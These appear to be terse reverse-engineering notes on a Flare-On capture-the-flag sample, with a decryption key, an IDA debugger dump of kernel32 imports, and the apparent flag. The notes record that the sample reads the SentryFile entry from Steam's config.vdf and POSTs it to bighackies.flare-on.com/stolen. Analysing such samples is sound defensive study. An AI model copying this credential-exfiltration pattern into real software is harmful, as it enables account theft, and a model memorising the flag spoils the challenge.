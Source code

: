 

decrypts strings with this key:

0x1337+2+0x616E6162+0x32B840F



0x6499f8a9 is correct?
0x6499f8aa - weird




bananabot 5000
http://127.0.0.1:57328/2/summary
the decryption of this blob was successful



CloseHandle
CreateFileA
ExitProcess
GetFileSize
GetProcessHeap
ReadFile


28:0000000000371772 ; context stru_371772
debug028:0000000000371772 stru_371772 context <2BA8h, 371883h, offset kernel32_CloseHandle, \
debug028:0000000000371772                                         ; DATA XREF: sub_37097D+42↑o
debug028:0000000000371772                                         ; sub_371465+20D↑o ...
debug028:0000000000371772          offset kernel32_CreateFileA, offset kernel32_ExitProcess, \ ; "NTDLL.RtlExitUserProcess"
debug028:0000000000371772          offset kernel32_FindClose, offset kernel32_FindFirstFileA, \
debug028:0000000000371772          offset kernel32_FindNextFileA, offset kernel32_GetFileSize>
debug028:00000000003717BA dq offset kernel32_GetProcessHeap
debug028:00000000003717C2 dq offset kernel32_ReadFile
debug028:00000000003717CA dq offset kernel32_CopyFileA
debug028:00000000003717D2 dq offset kernel32_ExpandEnvironmentStringsA
debug028:00000000003717DA off_3717DA dq offset sub_76FFDC60       ; DATA XREF: sub_37097D+1F↑o
debug028:00000000003717DA                           



Opens C:\Program Files (x86)\Steam\config\config.vdf
reads it
finds "SentryFile"


HINTERNET HttpOpenRequestA(
  [in] HINTERNET hConnect,
  [in] LPCSTR    lpszVerb,
  [in] LPCSTR    lpszObjectName,
  [in] LPCSTR    lpszVersion,
  [in] LPCSTR    lpszReferrer,
  [in] LPCSTR    *lplpszAcceptTypes,
  [in] DWORD     dwFlags,
  [in] DWORD_PTR dwContext
);

bighackies.flare-on.com
HttpOpenRequestA(..., "POST", "/stolen", )
Content-Type: application/octet-stream





35FD - flag
30FB - net shit




2A58C0


computer_ass1sted_ctfing@flare-on.com



